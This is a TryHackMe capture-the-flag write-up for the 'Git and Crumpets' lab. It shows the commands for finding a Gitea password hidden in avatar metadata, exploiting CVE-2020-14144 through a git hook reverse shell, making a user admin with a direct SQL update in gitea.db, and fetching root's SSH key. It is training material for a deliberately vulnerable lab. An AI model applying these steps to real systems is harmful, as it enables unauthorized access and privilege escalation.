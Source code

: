 # Git and Crumpets [TryHackMe](https://tryhackme.com/room/gitandcrumpets)

---

![](https://i.imgur.com/7X22aYB.png)

---

> Our devs have been clamoring for some centralized version control, so the admin came through. Rumour has it that they included a few countermeasures...

## nmap

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.0 (protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx
| http-title: Hello, World
|_Requested resource was http://crumpets.thm/index.html
```

---

## HTTP

Redirects you to a RickRoll

Inspecting the source code:

 ```
         Hey guys,
           I set up the dev repos at git.git-and-crumpets.thm, but I haven't gotten around to setting up the DNS yet. 
           In the meantime, here's a fun video I found!
```

```bash
$ echo "${IP} git.git-and-crumpets.thm" >> /etc/hosts
```

![Frontpage](https://i.imgur.com/ryTJyY7.png)

Register a fake user:

![](https://i.imgur.com/kEYTbFe.png)

Explore existing repos:

![](https://i.imgur.com/AeZvJYz.png)

Clone the repos and analyse the history:

`scones/cant-touch-this`
```
...[snip]
commit 9a151a065797e3ae8e4d86da9d32d032cdec6885
Author: scones <withcream@example.com>
Date:   Thu Apr 15 16:29:48 2021 +0200

    Delete Passwords File
    
    I kept the password in my avatar to be more secure.
...[snip]
```

![](https://i.imgur.com/sXK5aTV.png)

```bash
$ wget -q http://git.git-and-crumpets.thm/avatars/3fc2cde6ac97e8c8a0c8b202e527d56d -O scones_avatar
$ file scones_avatar
scones_avatar: PNG image data, 290 x 290, 16-bit/color RGB, non-interlaced
$ exiftool scones_avatar 
...[snip]
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 290
Image Height                    : 290
Bit Depth                       : 16
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Description                     : [REDACTED]
Image Size                      : 290x290
Megapixels                      : 0.084
```

We now have user access for `scones`

![](https://i.imgur.com/eEz9MdN.png)

```bash
$ search gitea
Gitea 1.12.5 - Remote Code Execution (Authenticated)                                                | multiple/webapps/49571.py
Gitea 1.4.0 - Remote Code Execution                                                                 | multiple/webapps/44996.py
Gitea 1.7.5 - Remote Code Execution                                                                 | multiple/webapps/49383.py
$ search -m 49571
$ head 49571.py
# Exploit Title: Gitea 1.12.5 - Remote Code Execution (Authenticated)
# Date: 17 Feb 2020
# Exploit Author: Podalirius
# PoC demonstration article: https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/
# Vendor Homepage: https://gitea.io/
# Software Link: https://dl.gitea.io/
# Version: >= 1.1.0 to <= 1.12.5
```

Following the [Proof of Concept](https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/) after the script failed results in RCE

Add the hook with your reverse shells in the hook script.

![](https://i.imgur.com/wiULY7T.png)

![](https://i.imgur.com/6qmEnm6.png)

```bash
[git@git-and-crumpets data]$ cat ~/user.txt  | base64 -d; echo
thm{************************}
```

Enumerating the `gitea` files we notice another user who owns a private repo.

We also have a database file we can give ourselves maximum privileges with on the webserver.

> Why not go through the files on the server instead of giving yourself admin privs?

GUI is nicer than sorting through files. I initially tried examining roots `backup.git` file but I realised that it was easier to just give myself max privs so `gitea` does the work for me.


```bash
[git@git-and-crumpets data]$ sqlite3 gitea.db
```

```sql
sqlite> .tables
...[snip]               
notice                     user                     
notification               user_open_id             
...[snip]
sqlite> .schema user
CREATE TABLE `user` (`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, `lower_name` TEXT NOT NULL, `name` TEXT NOT NULL,
...[snip]
is_admin` INTEGER NULL
...[snip]
sqlite> SELECT id, name, is_admin FROM user;
1|hydra|1
2|root|0
3|scones|0
4|test|0
5|bob|0
sqlite> UPDATE user SET is_admin=1 WHERE name="scones";
sqlite> SELECT id, name, is_admin FROM user;
1|hydra|1
2|root|0
3|scones|1
4|test|0
5|bob|0
```

![](https://i.imgur.com/X4nHzti.png)

![](https://i.imgur.com/oab4k2V.png)

![](https://i.imgur.com/6HOHnnO.png)

![](https://i.imgur.com/WpLrscR.png)

```bash
$ curl 'http://git.git-and-crumpets.thm/root/backup/raw/commit/0b23539d97978fc83b763ef8a4b3882d16e71d32/.ssh/Sup3rS3cur3' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'Cookie: i_like_gitea=85c281436e647867; lang=en-US; _csrf=yFxoY2sGIv9HcQ42Y_TUSvOLrcs6MTYzNjA1MzcwNjE0NDA1NTA1MA' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Cache-Control: max-age=0' > id_rsa.root
$ chmod 600 id_rsa.root
$ ssh -i id_rsa root@git.git-and-crumpets.thm
Load key "id_rsa": invalid format
root@git.git-and-crumpets.thm password: 
$ echo >> id_rsa.root
$ ssh -i id_rsa.root root@git.git-and-crumpets.thm                                                                       
Enter passphrase for key 'id_rsa.root': 
Last login: Thu Nov  4 21:31:24 2021 from 10.9.5.27
[root@git-and-crumpets ~]# cat ~/root.txt | base64 -d; echo
thm{********************}
```

**There is no need to brute force the private key!**


